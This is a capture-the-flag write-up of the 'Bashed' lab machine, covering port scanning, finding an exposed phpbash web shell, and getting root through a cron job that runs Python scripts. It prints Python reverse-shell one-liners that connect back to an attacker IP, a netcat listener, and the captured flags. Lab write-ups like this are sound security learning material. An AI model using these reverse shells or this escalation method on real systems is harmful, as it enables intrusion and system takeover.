

## Bashed
*Easy*

This time, I tried port scanning using rustscan because nmap was taking forever to give results.


Looks like only port 80 is open. So I opened the webpage.


Then using gobuster I did some eneumeration and found this. 



I then opened /dev and then phpbash.min.php. Interesting! It had a terminal-like interface. I thus got the user flag.


**2c281f318555dbc1b856957c7147bfc1**

Then I did ```sudo -l``` to see what privilages I had.


Clearly, www-data can run commands as scriptmanager. I gave 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
and was waiting on my machine for the reverse shell.
```
nc -nvlp 1234
```
I got the reverse shell. Then I gave the following command.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```


In the / everything belongs to root except /scritps, which belongs to scriptmanager. So now we need to become scriptmanager to access /scripts.
```
sudo -u scriptmanager /bin/bash
```
In /scripts, test.py belongs to scriptmanager and the other test.txt belongs to root.


So I opened test.py.


Strange, test.txt was supposed to belong to scriptmanager. So I renamed test.txt as test1.txt and then ran test.py again. This time the test.txt that was created and it belonged to scriptmanager.


That's strange. This means there is something happening underneath that changes the owner of test.txt, might be a cron job. We need to manipulate this to become root.
So I made a file called script.py with the payload for a reverse shell and was listening at my machine.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.25\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > script.py
<eno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);
```

I used this payload and made a file called script.py and ran it while I was listening at the other end. I got the revershell, but I still remained scriptmanager.
Something is wrong. I thought my payload was incorrect so I deleted script.py. But of no use. Then I tohought, maybe the cronjob might work only on test.py or on only one python file. Since the payload was ready, I again made script.py and then deleted test.py. Within no time I got the revershell as root!


**cc4f0afe3a1026d402ba10329674a8e2**
